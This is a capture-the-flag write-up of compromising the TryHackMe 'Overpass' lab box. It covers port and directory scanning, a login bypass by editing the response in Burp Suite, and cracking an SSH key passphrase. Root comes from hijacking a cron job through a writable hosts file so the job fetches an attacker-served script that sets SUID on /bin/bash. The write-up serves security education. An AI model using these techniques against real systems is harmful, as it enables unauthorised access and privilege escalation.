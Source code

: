 Recently, I decided to give the Overpass box a tr on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for ssh and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80. I left gobuster running on the background busting through all the sub-directories while I manually checked the website. For gobsuter I used:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and started looking around manually. It looked something like:

![home page](images/home.png) 

The about page had some interesting names but nothing more than that: 

![about page](images/about.png)

I moved on to the downloads section which had some interesting stuff going on with it:

![download page](images/downloads.png)

The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since, nothing seemed off uptil now, I went on to the more interesting parts namely the `login.js` file. On a closer inspection I found a vulnerable function.

![login.js](images/login.png)

Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the if check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to request to true.

![capture response](images/burp.png)

Now the fun begins, simply removing the `Incorrect Credentials` would bypass the check in the login function above. And that is exactly what I did.

![incorrect credentials](images/inc%20cred.png)
![no credential](images/no%20cred.png)

I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.

![RSA Key](images/RSA.png)

I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to connect to the box by running `ssh -i RSA james@10.10.38.213`. 

![user shell via ssh](images/user%20shell.png)

SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python http.server`.

![http server](images/http.png) 
![linpeas](images/linpeas.png)

Upon running `linpeas.sh` a peculiar cron job came under my attention. 

![cron job](images/cron.png)

This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular ip to `overpass.thm` namely the `/etc/hosts` file was writeable by the user according to linpeas.sh.

![/etc/hosts](images/etc.png)

So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` ip (openvpn ip).

![edit](images/edit.png)

Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In there I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.

![root](images/root%20shell.png)